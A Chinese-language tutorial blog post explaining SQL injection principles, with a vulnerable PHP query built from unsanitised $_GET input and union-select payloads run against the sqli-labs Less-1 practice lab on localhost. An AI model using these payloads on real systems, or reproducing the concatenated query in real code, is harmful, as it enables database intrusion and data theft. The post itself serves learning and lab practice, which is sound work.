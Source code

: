 ```yaml
---
layout: post
title: 1.1.1-SQL注入-SQL注入基础-SQL注入原理分析
category: 
  - web安全
tags: 
  - sql注入
  - web安全
abbrlink: 1730261069
date: 2018-06-11 00:00:00
---
```


## SQL注入原理分析

### SQL注入背景介绍-SQL语言介绍
sql 结构化查询语言  
通用的功能极强的关系数据库标准语言  
功能包括查询、操纵、定义和控制四个方面  
不需要告诉SQL如何访问数据库，只要告诉SQL需要数据库做什么 

### SQL注入产生原因
网络技术与信息技术高速发展，B/S模式具有界面统一，使用简单，易于维护，扩展性好，共享度高等优点，B/S模式越来越多的被应用于程序编写中。  

1. B/S建立在互联网，对安全控制能力较弱
2. 开发人员水平和经验参差不齐，没有在编写代码时对用户的输入数据或者页面携带信息进行必要的合法性判断。  

攻击者利用这个机会**提交一段数据库查询代码**，根据程序返回的结果，就可以获得一些数据库信息。

### SQL注入核心原理

SQL注入是一种将恶意的SQL代码**插入或添加到应用（用户）的输入参数**的攻击，攻击者探测出开发者编程过程中的漏洞，利用这些漏洞，巧妙的**构造SQL语句**对数据库系统的内容进行直接**检索或修改**。


灵活的SQL查询语句+用户输入的数据带入了SQL语句=用户直接操作数据库->**SQL注入漏洞**

	select version();
	select id from where id=1;
	select id from jobs where id=1 union select version();

	select id.location from jobs where id=1 union select 1,version();  // 1是占位

用户输入可控，代码对用户输入进行了拼接，带入SQL语句，产生SQL注入漏洞

http://test.com/index.php?id=1*UNION SELECT 1,version()#*


	$id=$_GET['id'];// id没做处理
	$sql="SELECT * FROM users WHEre id='$id' LIMIT 0,1"

	select id,location from jobs where id=1 union select 1,version()#


<br/>

	docker ps --help
	docker ps -a
	docker exec -it <id> /bin/bash
	mysql
	show databases;
	use security;
	show tables;

	select * from users;
	select username from users where id=1;
	select username,password from users where id=1;

	select 1;
	select 1123;
	select version();
	select username,password from users where id=1 union select version();
	select username,password from users where id=1 union select 1,version();

	select * from users where id=1 limit 0,1;
	select * from users where id=-1 union select 1,2,version()# limit 0,1;

	// 浏览器
	http://127.0.0.1:90/Less-1/?id=1%27%20union%20select%201,2,3%23
	?id=1' union select 1,2,3
	// %23 #

	http://127.0.0.1:90/Less-1/?id=-1%27%20union%20select%201,version(),3%23
	?id=-1' union select 1,version(),3
	// 需要让它出个错

	// 控制台
	// 退出mysql
	exit

	cd /var/www/html/Less-1
	cat index.php
	vi index.php
	// 编辑
	echo $sql
	:wq


todo sqli-labs源码地址

	docker ps -a
	docker exec -it <id> /bin/bash
	cd /var/www/html/Less-1


